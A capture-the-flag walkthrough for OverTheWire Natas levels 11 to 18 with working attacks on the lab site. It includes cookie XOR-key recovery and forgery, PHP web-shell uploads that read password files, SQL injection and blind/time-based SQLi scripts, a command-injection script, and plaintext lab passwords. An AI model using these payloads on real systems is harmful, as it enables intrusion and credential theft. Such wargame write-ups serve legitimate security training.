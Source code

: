 ```yaml
---
title: Wargames - Natas
published: false 
tags: game bandit
---
```


# ## [Level 10 -> Level 11](https://overthewire.org/wargames/natas/natas11.html)

Username: natas11
Lab URL: http://natas11.natas.labs.overthewire.org/

Source code view: 
```
$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

function loadData($def) {
    global $_COOKIE;
    $mydata = $def;
    if(array_key_exists("data", $_COOKIE)) {
    $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
    if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
        if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
        $mydata['showpassword'] = $tempdata['showpassword'];
        $mydata['bgcolor'] = $tempdata['bgcolor'];
        }
    }
    }
    return $mydata;
}

function saveData($d) {
    setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
}

$data = loadData($defaultdata);

if(array_key_exists("bgcolor",$_REQUEST)) {
    if (preg_match('/^#(?:[a-f\d]{6})$/i', $_REQUEST['bgcolor'])) {
        $data['bgcolor'] = $_REQUEST['bgcolor'];
    }
}

saveData($data);
```

Get key:

```
function xor_encrypt($in) {
    $key = base64_decode('ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw%3D');
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
        $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

$data = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");
echo xor_encrypt(json_encode($data));
# return qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq
```

Encode new cookie:
```
$defaultdata = array( "showpassword"=>"yes", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = 'qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

echo base64_encode(xor_encrypt(json_encode($defaultdata)));
```

![Password](assets/natas/11/password.png)

password: EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

# ## [Level 11 -> Level 12](https://overthewire.org/wargames/natas/natas12.html)

Username: natas12
Lab URL: http://natas12.natas.labs.overthewire.org/

To obtain password you need to upload php file to server. It will be automatilcy executed. Create file with following content: 

```
<?php system("cat /etc/natas_webpass/natas13"); ?>
```

To change file name to .php use burp. Aftel all you will get password.

password: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

# ## [Level 12 -> Level 13](https://overthewire.org/wargames/natas/natas13.html)

Username: natas13
Lab URL: http://natas13.natas.labs.overthewire.org/

Create valid jpeg file, and add to it: 

```
<?php system("cat /etc/natas_webpass/natas14"); ?>
```

![Password](assets/natas/13/password.png)

password: Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1


# ## [Level 14 -> Level 15](https://overthewire.org/wargames/natas/natas14.html)

Username: natas14
Lab URL: http://natas14.natas.labs.overthewire.org/

Classic SQL injection, payload: 

```
username: natas15 " or "1" =" 1 
password: Anything you want
```

![Password]()

password: AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

# ## [Level 15 -> Level 16](https://overthewire.org/wargames/natas/natas16.html)

Username: natas15
Lab URL: http://natas15.natas.labs.overthewire.org/

In that case there is [blind SQL injection](https://owasp.org/www-community/attacks/Blind_SQL_Injection). Using following pyhton code can be used to obtain password:

```
import requests
import string 

username = "natas15"
passwd = "AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J"

valid = "This user exists."

characters = list(string.digits) + list(string.ascii_letters)

print('Characters: {}'.format(''.join(characters)))

password = []

for i in range(1, 34):
    for ch in characters:
        url = 'http://natas15.natas.labs.overthewire.org/index.php?username=natas16" and substr(password, {}, 1) like binary"{}&debug'.format(i, ch)
        r = requests.get(url, auth=(username, passwd))
                
        if valid in r.text:
            password.append(ch)
            continue

print('Password: {}'.format(''.join(password)))

```

password: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

# ## [Level 16 -> Level 17](https://overthewire.org/wargames/natas/natas17.html)

Username: natas16
Lab URL: http://natas16.natas.labs.overthewire.org/

I have updated previwous script to get password from this level:

```
import requests
import string 

username = "natas16"
passwd = "WaIHEacj63wnNIBROHeqi3p9t0m5nhmh"

valid = "hacker"

characters = list(string.digits) + list(string.ascii_letters)

print('Characters: {}'.format(''.join(characters)))

password = []

for i in range(1, 34):
    for ch in characters:
        url = 'http://natas16.natas.labs.overthewire.org/?needle=$(grep -E ^{}.* /etc/natas_webpass/natas17)hacker'.format(''.join(password)+ch)
        r = requests.get(url, auth=(username, passwd))
                
        if valid not in r.text:
            password.append(ch)
            continue

print('Password: {}'.format(''.join(password)))
```

password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw


# ## [Level 17 -> Level 18](https://overthewire.org/wargames/natas/natas18.html)

Username: natas17
Lab URL: http://natas17.natas.labs.overthewire.org/

payload: natas18" and if(substring(password,1,1)="x",sleep(5),'A')# -> if true then sleep for 5 seconds
password: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP